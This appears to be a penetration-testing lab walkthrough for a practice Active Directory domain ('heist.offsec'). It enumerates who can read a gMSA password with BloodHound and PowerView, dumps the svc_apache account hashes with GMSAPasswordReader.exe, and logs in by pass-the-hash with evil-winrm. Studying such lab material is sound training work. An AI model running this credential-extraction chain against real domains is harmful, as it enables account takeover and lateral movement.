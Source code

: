 # Enumerating Objects

## Example

In this page we'll cover some enumeration TTP's that we can use to further understand the active directory objects in the domain we're working with.

## Reviewing Bloodhound

Once we load data into bloodhound we can get a map of the users on the domain we want to target, this often gives us valuable information on intersting objects we want to enumerate further

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This shows that the **svc\_apache** service account can read the GMSA password, which means that the **svc\_apache** account is a Group Managed Service Account (gMSA).

<mark style="color:red;">**NOTE:**</mark> Group managed service accounts (gMSAs) are managed domain accounts that you use to help secure services. Password management for that account is handled by the Windows operating system.

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}

### Confirm GMSA is enabled

We can confirm that the user svc\_apache service account has GMSA enabled.

```powershell
PS C:\Users\enox> Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}


DistinguishedName : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
Enabled           : True
Name              : svc_apache
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : d40bc264-0c4e-4b86-b3b9-b775995ba303
SamAccountName    : svc_apache$
SID               : S-1-5-21-537427935-490066102-1511301751-1105
UserPrincipalName :

```

The following command provides info about which groups have permissions to retrieve the password for the svc\_apache service account:

```powershell
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames


CN                                         : svc_apache
DNSHostName                                : DC01.heist.offsec
DistinguishedName                          : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
MemberOf                                   : {CN=Remote Management Users,CN=Builtin,DC=heist,DC=offsec}
Created                                    : 7/20/2021 4:23:44 AM
LastLogonDate                              : 9/14/2021 8:27:06 AM
PasswordLastSet                            : 7/20/2021 4:23:44 AM
msDS-ManagedPasswordInterval               : 30
PrincipalsAllowedToDelegateToAccount       : {}
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,OU=Domain Controllers,DC=heist,DC=offsec, CN=Web Admins,CN=Users,DC=heist,DC=offsec}
ServicePrincipalNames                      :




```

We see under <mark style="color:yellow;">**PrincipalsAllowedToRetrieveManagedPassword**</mark> we see the group "Web Admins" let's enumerate this group further.

### Review Domain Group "Web Admins" PowerView

Let's find the domain members in "Web Admins" with PowerView

```powershell
PS> Get-DomainGroupMember "Web Admins"



GroupDomain             : heist.offsec
GroupName               : Web Admins
GroupDistinguishedName  : CN=Web Admins,CN=Users,DC=heist,DC=offsec
MemberDomain            : heist.offsec
MemberName              : enox
MemberDistinguishedName : CN=Naqi,CN=Users,DC=heist,DC=offsec
MemberObjectClass       : user
MemberSID               : S-1-5-21-537427935-490066102-1511301751-1103



```

We can see that our current user: "enox" can extract passwords! This means once  we extract we can login to apache\_svc.



### **Extracting the gMSA Password Using GMSAPasswordReader.exe**&#x20;

We can use [GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies) to retrieve the gMSA password with our current user.

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_apache'

Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 526C435B8E4CF11F447D6EF7152665BB
[*]       aes128_cts_hmac_sha1 : 19565C12FDE19AD1033BA3BBD56DD230
[*]       aes256_cts_hmac_sha1 : 43F6DECE6269A588687ACFF41F633A0F7AA9C3FBC7FEAB8BE6981854C19FE817
[*]       des_cbc_md5          : 4AEA91DCEF918F29

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 83AC7FECFBF44780E3AAF5D04DD368A5
[*]       aes128_cts_hmac_sha1 : 08E643C43F775FAC782EDBB04DD40541
[*]       aes256_cts_hmac_sha1 : 588C2BB865E771ECAADCB48ECCF4BCBCD421BF329B0133A213C83086F1A2E3D7
[*]       des_cbc_md5          : 9E340723700454E9

```

<mark style="color:red;">NOTE:</mark> rc4\_hmac is the same as the nt hash.



### Login to svc\_apache with credentials

DONT FORGET THE $ IN THE USERNAME! ANYTIME YOU SEE THIS YOU MUST ADD IT!

```shell-session
evil-winrm -i 192.168.191.165 -u svc_apache$ -H 83AC7FECFBF44780E3AAF5D04DD368A5 
```
